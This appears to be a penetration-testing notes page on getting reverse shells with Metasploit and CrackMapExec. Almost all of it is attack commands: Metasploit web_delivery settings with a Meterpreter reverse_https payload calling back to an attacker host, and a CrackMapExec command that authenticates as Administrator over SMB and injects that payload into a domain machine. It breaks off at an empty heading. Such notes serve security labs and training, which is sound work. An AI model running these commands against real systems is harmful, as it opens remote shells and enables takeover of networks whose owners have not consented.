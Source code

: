 ```yaml
---
description: Exploring Reverse Shells with Metasploit and CrackMapExec
cover: ../.gitbook/assets/GitBook Covers (1).png
coverY: 0
---
```


# 🟢 CME Reverse Shell with Metasploit

### Exploit

```
exploit/multi/script/web_delivery
```

```
set SRVHOST 192.168.1.201
set SRVPORT 8443
set exitonsession false
set SSL true
```

### Payload

```
set payload windows/meterpreter/reverse_https
set LHOST 192.168.1.201
set LPORT 443
set LURI rfs
```

### Define Target

```
set target 2
```

### Run Web Shell

```
exploit -j
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### CrackMapExec MSF reverse Shell - met\_inject

{% code overflow="wrap" %}
```bash
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs  -M met_inject -o SRVHOST=192.168.1.201 SRVPORT=9443 RAND=J3PR0Jn6smfPvr SSL=https
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### MSF RPC + CrackMapExec

